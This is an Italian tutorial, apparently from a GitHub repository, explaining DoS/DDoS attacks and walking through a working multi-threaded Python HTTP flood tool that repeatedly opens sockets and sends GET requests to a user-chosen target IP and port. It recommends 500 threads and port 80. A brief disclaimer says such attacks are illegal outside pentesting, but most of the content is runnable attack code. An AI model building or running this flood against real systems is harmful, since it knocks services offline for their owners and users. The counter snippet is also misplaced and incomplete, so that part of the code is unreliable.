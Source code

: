 # Cos'è un attacco DoS
Un attacco DoS (letteralmente Denial of Service) è un attacco, solitamente eseguito in modo illegale, il cui scopo e' saturare le risorse di un servizio o di un sistema inondandolo di richieste fino all'esaurimento delle risorse o sfruttando bug software. Questo tipo di attacco viene spesso eseguito con l'aiuto delle cosiddette botnet (reti di pc infettati che fungono da dispositivi per il DDoS, letteralmente Distributed Denial of Service) per soddisfare la necessita' di generare grandi quantita' di traffico.

# Tipi di attacchi Dos/DDoS
Come potete vedere nell'immagine sottostante, esistono ben 14 tipi di attacchi DoS/DDoS; quello che interessa a noi sarà l'attacco HTTP Flood.
![image](https://user-images.githubusercontent.com/82817793/194537095-87295829-3023-46e2-910d-d9e0ddc6daed.png)

# DoS e DDoS nel Pentesting
Gli attacchi DoS e DDoS vengono usati principalmente nel Penetration Testing per eseguire degli stress-test su dei webserver o dei siti web. Gli stress-test sono una forma di test deliberatamente intensi o approfonditi utilizzati per determinare la stabilità di un determinato sistema, infrastruttura critica o entità.
# E ora, iniziamo a programmare!
L'implentazione di uno script DoS in Python è abbastanza semplice. Abbiamo solo bisogno di inviare richieste HTTP GET a un host su una porta specifica, più e più volte. Questo può essere fatto con le sockets, libreria built-in di Python. Per accelerare il processo e renderlo più efficace, utilizzeremo anche il multi-threading, che permette di eseguire comandi su più istanze dello stesso processo, rendendo così possibile l'esecuzione di più comandi al secondo. Perciò, le seguenti librerie saranno necessarie e, quindi, da importare:
```python
import socket
import threading
```
Ora le primissime cose di cui avremo bisogno sono l'indirizzo IP del nostro bersaglio, la porta che vogliamo attaccare, il numero di threads e il nostro caro indirizzo IP "falso" che vogliamo utilizzare. Tenete conto che questo tipo di indirizzo IP "falso" non nasconde davvero chi siamo, nè ci rende anonimi; serve solo appunto come indirizzo IP "di partenza" per inviare le richieste HTTP GET.
```python
target = str(input("Inserisci IP Target: "))
port = int(input("Inserisci Porta: "))
Trd = int(input("Inserisci Numero Di Threads: "))
fake_ip = '44.197.175.168'
```
Come potete vedere sopra, sia per il target che per la porta e il numero di threads, andiamo a inserire rispettivamente un input di tipo stringa (testuale) e 2 input di tipo integer (numerico), in modo da lasciare all'utilizzatore del nostro tool, una libertà nella scelta di essi, direttamente mentre usa il tool.
Come ho già detto, la pratica del DoSsing è illegale (tranne appunto nel caso del Pentesting), quindi fate attenzione all'obiettivo che sceglierete di attaccare (consiglio di fare una prova di attacco su un vostro sito web). Come indirizzo IP "falso" ho scelto l'indirizzo dei una mia personale istanza EC2 su AWS, usata come webserver. Ultima cosa, ma non per importanza, consiglio di attaccare la porta 80, che è quella HTTP.
Se si desidera arrestare un servizio specifico, è necessario sapere a quale porta sta operando (ad esempio la porta 443 di un sito web, è quella del servizio TCP, l'80 quella HTTP, e così via). La prossima cosa che dobbiamo fare è implementare l'effettiva funzione di attacco.
```python
def attack():
    while True:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target, port))
        s.sendto(("GET /" + target + " HTTP/1.1\r\n").encode('ascii'), (target, port))
        s.sendto(("Host: " + fake_ip + "\r\n\r\n").encode('ascii'), (target, port))
        s.close()
```
Questa funzione di attacco è la funzione che verrà eseguita in ciascuno dei nostri singoli thread. Il codice ```while True``` avvia un loop infinito, all'interno del quale crea una socket, si connette alla destinazione e invia una richiesta HTTP più e più volte. Naturalmente, se andiamo ad attaccare un'altra porta, dovremo anche cambiare il tipo di richiesta che inviamo.
Nel codice soprastante potete vedere che creiamo la funzione ```attack()```.
Il contenuto della funzione è il seguente:
* Ci connettiamo all'indirizzo IP e alla porta del nostro bersaglio;
* Creiamo delle richieste HTTP GET codificate in ASCII che andiamo ad inviare, ripetutamente, al nostro bersaglio.
Ora l'ultima cosa che dobbiamo fare è eseguire più thread che, a loro volta, eseguono questa funzione contemporaneamente. Se eseguissimo semplicemente la funzione (senza multi-threading) invierebbe molte richieste più e più volte, ma sarebbero inviate solo una dopo l'altra. Utilizzando il multi-threading, possiamo inviare molte richieste contemporaneamente.
```python
for i in range(Trd):
    thread = threading.Thread(target=attack)
    thread.start()
```
In questo caso, scegliamo di avviare 500 threads che eseguiranno la nostra funzione. Ovviamente possiamo "giocare" con questo numero, scegliendone uno diverso nell'input che abbiamo visto all'inizio (ma io consiglio di usarne 500). Quando ora eseguiamo il nostro script, il DoSsing avviene già, ma se desideriamo visualizzare ulteriori informazioni, è possibile stampare la quantità di richieste già inviate (questo processo rallenterà di un pochino il nostro attacco, ma non abbastanza da renderlo inefficace).
```python
global attack_num
        attack_num += 1
        print(attack_num)
```
Per abbellire un po il nostro script, andremo ad utilizzare toilet, un pacchetto open-source per stampare testo. Per eseguire i comandi di toilet (comandi che sono scritti in bash), dovremo importare la libreria os.
```python
import os
```
Infine andremo ad eseguire il comando ```toilet NomeDelTool``` tramite il seguente codice, che andremo ad aggiungere all'inizio del nostro script:
```python
os.system("clear") # Comando per pulire il terminale dal testo precedente
os.system("toilet NomeDelTool") # os.system("comando in bash") permette all'os di eseguire il comando specificato nella Shell dove stiamo usando il tool
```
Questa lezione termina qui ragazzi, spero che l'abbiate apprezzata e che abbiate imparato qualcosa di nuovo. Alla prossima!
# I miei social
[![Linkedin Badge](https://img.shields.io/badge/-TommasoBona-blue?style=flat-square&logo=Linkedin&logoColor=white&link=https://www.linkedin.com/in/tommaso-bona-20b76b232)](https://www.linkedin.com/in/tommaso-bona-20b76b232)
[![Instagram Badge](https://img.shields.io/badge/-TommasoBona-purple?style=flat-square&logo=instagram&logoColor=white&link=https://instagram.com/tommasoobona/)](https://instagram.com/tommasoobona)
[![Gmail Badge](https://img.shields.io/badge/-tommasobona04@gmail.com-c14438?style=flat-square&logo=Gmail&logoColor=white&link=mailto:tommasobona04@gmail.com)](mailto:tommasobona04@gmail.com)
# Articolo di
Tommaso Bona, © 2023 SecurityCert
<div id="header" align="center"> 

   <img src="https://media.giphy.com/media/YRMb6dd7zprS00JdGZ/giphy.gif" width="100"/> 

 </div>
